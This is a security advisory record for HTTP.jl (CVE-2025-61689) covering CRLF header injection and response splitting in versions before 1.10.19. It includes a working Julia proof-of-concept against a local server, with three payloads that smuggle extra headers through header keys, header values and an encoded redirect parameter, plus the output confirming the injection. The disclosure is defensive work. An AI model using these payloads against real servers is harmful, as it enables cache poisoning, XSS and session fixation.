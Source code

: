 ```toml
schema_version = "1.7.3"
id = "JLSEC-2025-40"
modified = 2025-10-14T04:37:19.606Z
published = 2025-10-14T04:37:19.606Z
aliases = ["GHSA-h3x8-ppwj-6vcj", "CVE-2025-61689"]

[[affected]]
pkg = "HTTP"
ranges = ["< 1.10.19"]

[[jlsec_sources]]
id = "GHSA-h3x8-ppwj-6vcj"
imported = 2025-10-14T02:22:26.408Z
modified = 2025-10-10T12:51:29.000Z
published = 2025-10-10T12:51:29.000Z
url = "https://api.github.com/repos/JuliaWeb/HTTP.jl/security-advisories/GHSA-h3x8-ppwj-6vcj"
html_url = "https://github.com/JuliaWeb/HTTP.jl/security/advisories/GHSA-h3x8-ppwj-6vcj"
```

# Header injection/Response splitting via header construction.

HTTP.jl did not validate header names/values for illegal characters, allowing CRLF-based header injection and response splitting.

```
using HTTP, Sockets

function handle_index(req::HTTP.Request)
    @show HTTP.header(req, "X-Foo")
    return HTTP.Response(200, "ok")
end

function handle_redirect(req::HTTP.Request)
    return HTTP.Response(301, ["Location" => get(HTTP.URIs.queryparams(req), "to", "/")], "redirect")
end

const router = HTTP.Router()
HTTP.register!(router, "GET", "/", handle_index)
HTTP.register!(router, "GET", "/redirect", handle_redirect)

server = HTTP.serve!(router, Sockets.IPv4(0,0,0,0), 8080)


println("[*] POC 1: Header injection in request through header key")
user_input = "X-Custom: x\r\nX-Foo: Bar\r\nX-Custom"
HTTP.get("http://localhost:8080/", [user_input => "hello"])

println()

println("[*] POC 2: Header injection in request through header value")
user_input = "hello\r\nX-Foo: Bar"
HTTP.get("http://localhost:8080/", ["X-Custom" => user_input])

println()

println("[*] POC 3: Header injection in response through header value")
res = HTTP.get("http://localhost:8080/redirect?to=/%0d%0aX-Foo:%20Bar", redirect=false)
@show HTTP.header(res, "X-Foo")

```

_Result_

```
[ Info: Listening on: [0.0.0.0:8080](http://0.0.0.0:8080/), thread id: 1
[*] POC 1: Header injection in request through header key
HTTP.header(req, "X-Foo") = "Bar"

[*] POC 2: Header injection in request through header value
HTTP.header(req, "X-Foo") = "Bar"

[*] POC 3: Header injection in response through header value
HTTP.header(res, "X-Foo") = "Bar"
```

### Impact

This enables HTTP response splitting and header injection, leading to cache poisoning, XSS, session fixation, and more.

### Patches

This issue is fixed in HTTP.jl  `v1.10.19`

### Credit

Chen T

